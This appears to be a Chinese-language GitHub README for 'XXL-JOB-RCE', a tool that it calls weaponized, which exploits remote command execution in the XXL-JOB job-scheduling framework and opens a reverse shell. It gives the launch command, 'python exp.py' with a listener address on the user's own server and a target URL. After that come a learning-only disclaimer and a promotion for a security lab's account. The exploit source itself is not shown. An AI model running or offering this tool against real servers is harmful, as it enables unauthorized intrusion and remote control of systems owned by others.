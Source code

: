 # XXL-JOB-RCE
工具介绍：
-
```
武器化工具：

    工具一键执行 xxl-job框架的远程命令执行 反弹shell
```
使用方法：
-
```
python exp.py -l xxx.xxx.xxx.xxx:port -t http://xxx.xxx.xxx.xxx

-l 后输入自己服务器的监听地址
-t 后输入目标地址
```
效果图：
-
![image](https://github.com/beoutnaprun/XXL-JOB-RCE/assets/133112969/fa07c773-9628-44e7-a356-4a716f68d2b6)

免责声明
=
```
1、软件仅供个人学习与交流使用，严禁用于商业以及不良用途。

2、如有发现任何商业行为以及不良用途，软件作者有权撤销使用权。

3、使用本软件所存在的风险将完全由其本人承担，软件作者不承担任何责任。

4、软件注明之服务条款外，其它因不当使用本软件而导致的任何意外、疏忽、合约毁坏、诽谤、版权或其他知识产权侵犯及其所造成的任何损失，本软件作者概不负责，亦不承担任何法律责任。

5、对于因不可抗力或因黑客攻击、通讯线路中断等不能控制的原因造成的服务中断或其他缺陷，导致用户不能正常使用，软件作者不承担任何责任，但将尽力减少因此给用户造成的损失或影响。

6、本声明未涉及的问题请参见国家有关法律法规，当本声明与国家有关法律法规冲突时，以国家法律法规为准。 

7、本软件相关声明版权及其修改权、更新权和最终解释权均属软件作者所有。
```

联系作者
=
欢迎关注HexaGon实验室进行相关留言
![公众号二维码](https://github.com/beoutnaprun/XXL-JOB-RCE/assets/133112969/e00030f6-2c39-4a99-a571-849193cc2dc3)
